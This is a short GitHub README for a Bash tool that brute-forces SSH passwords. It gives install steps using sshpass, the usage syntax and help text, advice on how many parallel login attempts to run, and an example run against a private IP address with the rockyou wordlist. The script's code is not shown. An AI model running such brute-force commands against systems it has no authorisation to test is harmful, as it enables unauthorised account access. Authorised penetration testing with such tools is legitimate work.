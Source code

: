# Bash SSH Brute-Force Login Script
```
  _________ _________ ___ ___          __________                __          
 /   _____//   _____//   |   \         \______   \_______ __ ___/  |_  ____  
 \_____  \ \_____  \/    ~    \  ______ |    |  _/\_  __ \  |  \   __\/ __ \ 
 /        \/        \    Y    / /_____/ |    |   \ |  | \/  |  /|  | \  ___/ 
/_______  /_______  /\___|_  /          |______  / |__|  |____/ |__|  \___  >
       \/        \/       \/                  \/                         \/
version 1.1, made by bananut
```

## Overview
A script for brute-forcing ssh passwords

## How do I use this?
First you need to install sshpass
```bash
sudo apt install sshpass
```
Then use this command to execute
```bash
./ssh-brute.sh <user> </path/to/wordlist.txt> <target_adress> <speed>
```
Help Command:
```
Info: an ssh brute-forcing tool for cracking a users password
Usage: ./ssh-brute.sh <username> <path/to/wordlist.txt> <ip_adress> <speed>
     - speed changes the amount of login tries running at the same time
     - if speed isn't set, defaults to 5
```
I don't recommend going over speed 40, because it won't register loging in with higher speeds

## Example
```bash
./ssh-brute.sh administrator /home/kali/rockyou.txt 192.168.1.100 35
```

